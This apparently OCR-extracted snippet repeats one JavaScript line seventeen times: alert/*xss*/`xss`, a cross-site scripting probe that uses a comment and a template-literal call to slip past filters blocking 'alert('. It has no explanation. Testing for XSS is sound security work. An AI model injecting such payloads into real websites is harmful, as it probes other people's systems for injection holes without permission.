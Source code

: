 ```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```
